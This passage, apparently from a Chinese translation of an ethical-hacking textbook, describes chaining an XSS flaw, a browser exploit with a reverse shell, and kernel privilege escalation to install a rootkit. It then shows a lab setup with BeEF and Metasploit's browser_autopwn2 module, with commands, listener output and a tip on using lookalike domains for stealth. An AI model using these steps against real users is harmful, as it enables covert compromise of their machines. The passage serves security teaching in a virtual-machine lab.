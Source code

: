 一旦这些漏洞被修复，更新用户设备需要时间（从几天到几周）。由于这些项目是开源的，攻击者可以在修复内容进入生产环境之前查看并利用这些修复。

#### *通过网站利用安装 Rootkit*

攻击者如何将本章所涵盖的漏洞串联起来，比如在受害者访问某个网站时安装 Rootkit？考虑以下攻击场景：你扫描了一个网站并发现了一个应用程序中的 XSS 漏洞。我们将这个漏洞称为漏洞 1。接下来，你利用这个漏洞上传恶意 JavaScript 代码，使其跳出浏览器的沙盒，并将恶意的反向 shell 加载到受害者的机器上（漏洞 2）。一旦反向 shell 连接到你的攻击者服务器，你就可以利用一个内核漏洞（在第十四章中讨论）提升权限（漏洞 3）并安装 Rootkit。你现在可以隐秘地控制这台机器。

图 13-14 展示了使用 BeEF 和 Metasploit 执行此漏洞的过程。

![image](img/ch13fig14.jpg)

*图 13-14：Web 服务器、受害者笔记本和黑客服务器之间的交互*

首先，受害者访问一个包含你注入的恶意 JavaScript ➊ 的网站。当受害者的浏览器加载页面 ➋ 后，代码被激活，接着它连接到 BeEF 服务器 ➌。BeEF 服务器随后注入额外的恶意 JavaScript ➍，该代码包含指向 Metasploit 服务器上漏洞利用代码的链接。浏览器将连接到 Metasploit 服务器 ➎，并下载自动扫描浏览器漏洞的 JavaScript 代码 ➏。如果发现漏洞，代码会利用该漏洞并在受害者机器上加载一个反向 Shell，该 Shell 会连接到 Metasploit 服务器 ➐。现在，攻击者可以执行权限提升攻击并安装 rootkit。

我们可以尝试通过在 Ubuntu 虚拟机上安装一个易受攻击的 Firefox 浏览器版本来执行此攻击。我们将使用 Metasploit 的 `browser_autopwn2` 模块自动扫描浏览器中的一系列漏洞。通过在 Kali Linux 虚拟机中打开终端并运行 `msfconsole` 启动 Metasploit 控制台。一旦 Metasploit 框架启动并运行，运行以下命令选择 `browser_autopwn2` 模块：

```
msf6 > use auxiliary/server/browser_autopwn2
```

使用 `options` 命令查看可用选项列表。我们将保持默认选项，但为了更具隐蔽性，你可能想指定一个 SSL 证书和 URL 路径，而不是使用随机生成的选项。例如，工具 URLCrazy 可以识别看起来与目标域名相似的域名。

现在通过运行 `browser_autopwn` 代码来启动 Metasploit 服务器：

```
msf6 auxiliary(server/browser_autopwn2) > run

   [*] Starting listeners...

   [*] Time spent: 20.41047527

   [*] Using URL: http://0.0.0.0:8080/TB19m513Mq91
➊ [*] Local IP: http://192.168.1.113:8080/TB19m513Mq91

   [*] The following is a list of exploits that BrowserAutoPwn will consider using.

   [*] Exploits with the highest ranking and newest will be tried first.

➋ Exploits

  ========

Order  Rank       Name                                 Payload
```